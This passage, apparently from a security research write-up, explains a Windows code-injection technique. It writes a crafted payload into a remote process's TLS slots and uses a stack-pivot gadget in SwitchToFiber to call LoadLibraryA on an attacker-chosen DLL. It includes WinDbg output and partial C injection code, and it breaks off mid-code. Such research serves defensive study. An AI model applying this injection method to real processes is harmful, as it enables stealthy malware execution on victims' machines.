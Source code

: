 There just so happens to be a perfect stack pivot gadget located in 
`kernelbase!SwitchToFiberContext` (or `kernel32!SwitchToFiber` on Windows 7):

```
7603c415 8ba1d8000000    mov     esp,dword ptr [ecx+0D8h]
7603c41b c20400          ret     4
```

Putting this all together, execution results in:

```
eax=7603c415 ebx=7ffdf000 ecx=7ffded54 edx=00280bc9 esi=00000001 edi=7ffdee28
eip=7603c415 esp=0019fd6c ebp=0019fd84 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
kernel32!SwitchToFiber+0x115:
7603c415 8ba1d8000000    mov     esp,dword ptr [ecx+0D8h]
ds:0023:7ffdee2c=7ffdee30
0:000> p
eax=7603c415 ebx=7ffdf000 ecx=7ffded54 edx=00280bc9 esi=00000001 edi=7ffdee28
eip=7603c41b esp=7ffdee30 ebp=0019fd84 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
kernel32!SwitchToFiber+0x11b:
7603c41b c20400          ret     4
0:000> dd esp l3
7ffdee30  41414141 41414141 41414141
```

Now we've got EIP and a stack pivot. Instead of marking memory and executing
some other payload, I took a quick and lazy strategy and simply called
`LoadLibraryA` to load a DLL off disk from an arbitrary location. This works
well, is reliable, and even on process exit will execute and block, depending
on what you do within the DLL. Here's the final code to achieve all this:

```
    _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll"), "NtWriteVirtualMemory");

    LPVOID lpBuf = malloc(13*sizeof(SIZE_T));
    HANDLE hProcess = OpenProcess(PROCESS_VM_WRITE|PROCESS_QUERY_INFORMATION, FALSE, dwTargetPid);
    if (hProcess == NULL)
        return;

    SIZE_T LoadLibA = (SIZE_T)LoadLibraryA;
    SIZE_T RemoteTeb = GetRemoteTeb(hProcess), TlsAddr = 0;
    TlsAddr = RemoteTeb + 0xe10;

    SIZE_T RemotePeb = GetRemotePeb(hProcess);
    SIZE_T PivotGadget = 0x7603c415;
    SIZE_T StackAddress = (TlsAddr + 28) - 0xd8;
    SIZE_T RtlExitThread = (SIZE_T)GetProcAddress(GetModuleHandleA("ntdll"), "RtlExitUserThread");
    SIZE_T LoadLibParam = (SIZE_T)TlsAddr + 48;

    //
    // construct our TlsSlots payload:
    // 0  ] 00000000 00000000 [STACK PIVOT] 00000000
    // 16 ] 00000000 00000000 [ECX VALUE] [NEW STACK PTR]
    // 32 ] [LOADLIB ADDR] 41414141 [RET ADDR] [LOADLIB ARG PTR]
    // 48 ] 41414141
    //

    memset(lpBuf, 0x0, 16);
    *((DWORD*)lpBuf + 2) = PivotGadget;
    *((DWORD*)lpBuf+ 4) = 0;
    *((DWORD*)lpBuf + 5) = 0;
    *((DWORD*)lpBuf + 6) = StackAddress;
    
    StackAddress = TlsAddr + 32;
```